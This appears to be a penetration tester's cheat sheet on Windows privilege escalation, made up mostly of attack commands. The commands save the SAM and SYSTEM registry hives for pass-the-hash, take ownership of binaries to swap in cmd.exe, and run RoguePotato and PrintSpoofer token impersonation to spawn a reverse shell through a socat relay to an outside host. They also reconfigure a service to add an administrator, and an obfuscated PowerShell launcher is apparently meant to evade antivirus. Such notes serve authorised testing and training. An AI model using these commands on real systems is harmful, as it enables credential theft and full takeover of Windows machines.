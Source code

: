 ## SePrivileges
From the `whoami /priv` privileges can be displayed.

- **SeBackUp / SeRestore**
SeBackup and SeRestore privileges allow users to read and write to any file in the system, bypass DACL. PrivEsc be backuping SAM and SYSTEM hives
```batch
reg save hklm\system C:\path\to\exfil\out\from
reg save hklm\sam C:\path\to\exfil\out\from
```
Use [[Impacket-Cheatsheet]], smbshare  to `copy` or `xcopy`  or `move` the hives your smb share. Then perform a [[Pass-The-Hash]] with Adminstrators hash.

- **SeTakeOwnership**
SeTakeOwnship allows file ownership transference to then `icacls` to grant full permissions over that file, replace with cmd.exe to PrivEsc:
```batch
takeown /f C:\path\to\an.exe
icalcs C:\path\to\an.exe /grant <CurrentUser>:f
copy C:\path\to\cmd.exe C:\path\to\an.exe
```
- **SeImpersonate / SeAssignPrimaryToken**
SeImpersonate and SeAssignPrimaryToken abuse consists of ability to spawn a process or thread under a different user's security context. 

#### Rogue Potato - Token Impersonation
```
sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999
C:\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe # triggered on ADMIN use
C:\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999 # in local service reverse shell run exploit
``` 

#### PrintSpoofer - Token Impersonation
```
C:\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe # triggered on ADMIN use
C:\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i # in local service reverse shell run exploit
```
[PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases)



## Powershell downgrade
```powershell
powershell -version 2
full_attack = '''powershell /w 1 /C "sv {0} -;sv {1} ec;sv {2} ((gv {3}).value.toString()+(gv {4}).value.toString());powershell (gv {5}).value.toString() (\\''''.format(ran1, ran2, ran3, ran1, ran2, ran3) + haha_av + ")" + '"'
```

## binPath
```
accesschk64.exe -wuvc daclsvc # sysinternals - if user has SERVICE_CHANGE_CONFIG permission
sc config daclsvc binpath="net localgroup administrators [username] /add"
sc start daclsvc
net localgroup administrators
```

